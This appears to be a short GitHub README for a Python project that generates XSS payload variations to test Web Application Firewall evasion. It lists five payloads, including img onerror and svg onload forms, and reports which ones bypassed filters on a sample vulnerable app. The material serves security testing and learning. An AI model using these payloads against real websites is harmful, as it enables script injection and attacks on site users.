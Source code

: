 # WAF Evasion for XSS - Python Script

## 🔹 About
This project explores how Web Application Firewalls (WAFs) block XSS (Cross-Site Scripting) and how attackers try to bypass them.

## 🔹 Script
- `payload_generator.py` → generates different variations of XSS payloads.

## 🔹 Example Payloads
1. `<script>alert('XSS')</script>`
2. `scr<script>ipt`
3. `<img src=x onerror=alert('XSS')>`
4. `<svg/onload=alert('XSS')>`
5. `%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E`

## 🔹 Results
- Tested on a sample vulnerable app.
- Payloads 3 & 4 bypassed filters successfully.
- Payload 1 was blocked by simple WAF filters.

## 🔹 How to Run
```bash
python payload_generator.py
